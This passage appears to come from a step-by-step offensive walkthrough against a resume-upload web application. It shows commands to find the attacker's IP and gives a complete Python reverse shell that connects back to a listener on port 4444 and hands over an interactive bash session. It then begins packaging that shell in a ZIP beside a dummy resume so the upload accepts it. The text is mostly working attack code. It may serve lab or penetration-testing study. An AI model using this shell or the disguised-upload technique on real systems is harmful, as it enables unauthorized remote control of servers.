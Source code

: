 You need your IP for the reverse shell callback:

```bash
# macOS WiFi
ipconfig getifaddr en0

# macOS Ethernet
ipconfig getifaddr en1

# Linux
hostname -I | awk '{print $1}'

# Or
ip addr show | grep "inet " | grep -v 127.0.0.1
```

**Note your IP** (e.g., `192.168.1.100`)

### 8. Create Reverse Shell Python Script

Create a reverse shell that will connect back to your listener:

```bash
cat > reverse_shell.py << 'EOF'
#!/usr/bin/env python3
import socket
import subprocess
import os

# Replace with your IP and port
LHOST = "YOUR_IP_HERE"  # e.g., "192.168.1.100"
LPORT = 4444

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((LHOST, LPORT))
    os.dup2(s.fileno(), 0)
    os.dup2(s.fileno(), 1)
    os.dup2(s.fileno(), 2)
    subprocess.call(["/bin/bash", "-i"])
except Exception as e:
    pass
EOF

# Replace YOUR_IP_HERE with your actual IP
sed -i '' 's/YOUR_IP_HERE/192.168.1.100/g' reverse_shell.py
# For Linux, use: sed -i 's/YOUR_IP_HERE/192.168.1.100/g' reverse_shell.py
```

### 9. Package Reverse Shell in ZIP File

The application accepts ZIP files, so package the reverse shell with a dummy resume:

```bash
# Create a dummy resume file
cat > legitimate_resume.txt << 'EOF'
Jane Doe
Senior Software Engineer

SKILLS:
- Python, Flask, Redis
- Docker, Kubernetes
- Security Testing
EOF

# Create a directory for the ZIP contents
mkdir upload_package
```
